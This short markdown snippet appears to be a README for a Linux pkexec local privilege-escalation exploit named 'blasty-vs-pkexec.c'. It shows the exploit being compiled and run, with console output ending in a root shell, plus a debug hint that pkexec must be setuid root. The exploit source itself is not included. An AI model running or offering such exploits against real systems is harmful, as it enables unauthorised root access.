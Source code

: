## 🐧MAJOR BUG GRANTS ROOT FOR ALL MAJOR LINUX DISTRIBUTIONS

```console
user@linux:~$ gcc -o blasty blasty-vs-pkexec.c
user@linux:~$ ./blasty
[~] compile helper..
[~] maybe get shell now?
# whoami
root

```
exploitation when debugging:
```debug
pkexec must be setuid root
```
